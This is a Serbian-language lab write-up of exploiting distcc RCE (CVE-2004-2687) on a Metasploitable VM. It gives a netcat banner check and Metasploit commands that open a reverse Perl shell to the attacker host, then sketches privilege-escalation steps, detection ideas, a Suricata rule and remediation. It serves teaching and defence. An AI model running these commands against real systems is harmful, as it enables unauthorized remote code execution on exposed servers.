


# distcc RCE (CVE-2004-2687)

Distcc je alat za distribuirano kompajliranje — omogućava da se kompajliranje
koda podeli na više mašina u mreži radi brzine. Problem nastaje kad je
`distccd` daemon izložen bez ikakvog ograničenja pristupa (bez `--allow`
liste ili firewall pravila), jer servis po dizajnu prihvata zahteve za
izvršavanje kompajlerskih komandi od bilo kog klijenta, bez autentifikacije.
Kompajliranje u suštini znači izvršavanje komandi, pa se to lako zloupotrebi
za izvršavanje proizvoljnog koda.

Za razliku od vsftpd i UnrealIRCd (gde je posredi trovan izvorni kod) ili
Samba (command injection bug), ovde nije reč o grešci u kodu servisa — sve
radi tačno onako kako je i dizajnirano. Problem je isključivo u konfiguraciji
(servis izložen bez ograničenja pristupa).

## Cilj
- IP: 192.168.56.102
- Port: 3632 (distcc)
- Servis: distccd v1

## CVE
CVE-2004-2687

## Tip napada
Remote Code Execution kroz nesigurnu konfiguraciju (missing access control)

## MITRE ATT&CK
- T1190 – Exploit Public-Facing Application
- T1059 – Command and Scripting Interpreter

## Mehanizam

distccd prihvata zahteve za kompajliranje bez ikakve provere ko ih šalje.
Klijent može, umesto legitimne kompajlerske komande, poslati proizvoljnu
shell komandu, koju servis izvršava sa privilegijama pod kojima sam radi.

---

## Korak 0: Potvrda servisa

```bash
nc -nv 192.168.56.102 3632
```



Konekcija se otvara sa odgovorom `(distcc) open`, što potvrđuje da servis
sluša na portu 3632.

---

## Eksploatacija: Metasploit

Ručno slanje distcc protokola je nezgodno jer zahteva tačan binarni format
poruke, pa je ovde korišćen Metasploit modul.

### Komande

```bash
msfconsole
search distcc
use exploit/unix/misc/distcc_exec
set RHOSTS 192.168.56.102
set LHOST 192.168.56.101
run
```

Default payload (`cmd/unix/reverse_bash`) nije uspeo — koristi `/dev/tcp`
bash trik koji na ovom sistemu nije proradio. Promenjen je na
`cmd/unix/reverse_perl`, koji je uspešno otvorio sesiju:

```bash
set PAYLOAD cmd/unix/reverse_perl
run
```

### Rezultat



[*] Command shell session 1 opened
whoami → daemon
id → uid=1(daemon) gid=1(daemon) groups=1(daemon)
hostname → metasploitable


## Napomena o privilegijama

Za razliku od prethodna tri exploita, ovde nije dobijen root direktno —
distccd radi pod korisnikom `daemon`, jer nema razloga da kompajlerski
servis ima root privilegije. RCE je uspešan, ali kompromis je delimičan:
napadač dobija izvršavanje koda, ali ne i punu kontrolu nad sistemom.

Sledeći logičan korak bi bio privilege escalation sa `daemon` na `root` —
npr. provera `sudo -l`, traženje SUID binarnih fajlova (`find / -perm -4000`),
ili poznati kernel exploiti za verziju sistema. Ovo namerno nije izvedeno u
sklopu ovog writeup-a, ali predstavlja prirodan nastavak analize.

---

## Detekcija (blue team ugao)

- distccd izložen na mreži bez ograničenja pristupa je sam po sebi
  crvena zastava — trebalo bi da se detektuje već u fazi asset/config
  review-a, ne tek kad se iskoristi
- Neočekivana odlazna konekcija sa distccd procesa ka eksternom IP-u i
  portu (reverse shell)
- Spawn shell procesa (npr. `perl`, `sh`) iz distccd daemona — anomalija
  u process tree-u
- Distcc saobraćaj sa klijenata van poznate/očekivane build infrastrukture

## IDS potpis (Suricata primer)

alert tcp any any -> any 3632 (msg:"distcc RCE attempt"; sid:9000004;)


## Remedijacija

- Nikad ne izlagati distccd na javnu ili nepoverljivu mrežu
- Koristiti `--allow` listu da ograniči pristup samo na poznate build
  servere
- Firewall pravilo koje ograničava pristup portu 3632 samo na internu
  build infrastrukturu
- Razmotriti pokretanje distccd unutar izolovanog/sandboxed okruženja

## Screenshots
- `04_distccd_banner.png`
- `04_distccd_shell.png`